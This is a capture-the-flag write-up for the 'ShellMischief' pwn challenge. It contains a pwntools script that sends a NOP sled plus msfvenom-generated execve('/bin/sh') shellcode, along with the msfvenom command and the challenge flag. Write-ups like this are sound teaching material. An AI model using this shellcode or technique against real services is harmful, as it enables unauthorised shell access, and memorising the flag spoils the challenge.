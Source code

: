 # ShellMischief
Solved by **CapangJabba**

## Question
Step into the world of ShellMischief! This playful pwn challenge invites you to unleash your most mischievous self. With a sprinkle of creativity and a hint of trickery, can you crack the code and claim victory? Let the mischief begin!

## Solution
the program will ask for input and execute it, but the execution will start randomly at input buffer, so I create a `NOP` sled before the shellcode

```
from pwn import *
from ctypes import CDLL
if args.REMOTE:
   io = remote(sys.argv[1],sys.argv[2])
else:
   io = process("./vuln", )
elf = context.binary = ELF("./vuln", checksec=False)
context.log_level = 'debug'


payload = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
buf =  b""
buf += b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68"
buf += b"\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52"
buf += b"\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += b"\x00\x57\x53\x89\xe1\xcd\x80"
pause()
io.recvuntil(b'shellcode:\n')

nop_sled = (511 - len(buf))

io.sendline(b'\x90' * nop_sled + buf)

io.interactive()
```

the shellcode use msfvenom

`msfvenom -p linux/x86/exec CMD=/bin/sh -f py`
### Flag
`OSCTF{u_r_b3rry_mischievous_xD}`
